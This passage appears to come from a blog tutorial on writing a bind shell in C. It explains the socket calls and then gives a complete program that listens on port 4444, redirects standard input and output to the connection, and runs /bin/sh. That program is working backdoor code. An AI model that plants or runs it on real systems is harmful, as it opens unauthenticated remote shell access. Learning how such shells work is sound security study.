 -   Socket: Open a socket over which we will communicate. Essentially a file descriptor
-   Bind: Bind our socket to an interface on our system
-   Listen: Tell our system that we are ready to start accepting connections
-   Accept: Accept the connection. This is a necessary next step as listen will generally queue up connections in anticipation of them being accepted

Functions we won't worry about:

-   Send
-   Recv
-   Connect
-   Close

We won't worry about send or recv because they are used for managing
the flow of data coming in and out and acting accordingly.  We are
instead going to just redirect stdin, stdout, and stderr over the
socket using a function called dup2 and not worry about managing the
flow of data. Since we aren't connecting to another system/server we
don't need to worry about connect. And as for close, it is generally
good practice to close files after your done with them but one leaked
file descriptor won't hurt anyone right? We need to trim the fat!

The final step after we get our redirection going is we just need to
run a program, in our case `/bin/sh` and its output and input should
be connected to our socket. We can run this program using `execve`.

So lets get some code going!

{% highlight c %}

      #include <stdio.h>
      #include <netinet/in.h>
      #define PORT 4444
    
      int main(int argc, char **argv) {
        // Create a socket
        int lsock = socket(AF_INET, SOCK_STREAM, 0);
    
        // Setup servr side config struct
        // We configure:
        // The family:IPv4
        // The interface: 0.0.0.0 (any)
        // The port: port#
        struct sockaddr_in config;
        config.sin_family = AF_INET;
        config.sin_addr.s_addr = INADDR_ANY;
        // The htons() function converts the
        // unsigned short integer hostshort from host byte
        // order to network byte order.
        config.sin_port = htons(PORT);
    
        // Bind the created socket with the interface
        // specified in the configuration
        bind(lsock, (struct sockaddr *)&config, sizeof(config));
    
        // Listen on the socket
        listen(lsock, 0);
    
        // Accept the incoming connection
        int csock = accept(lsock, NULL, NULL);
    
        // Redirect stdin, stdout, and stderror
        dup2(csock, 0);
        dup2(csock, 1);
        dup2(csock, 2);
    
        // Execute a shell
        execve("/bin/sh", NULL, NULL);
    };
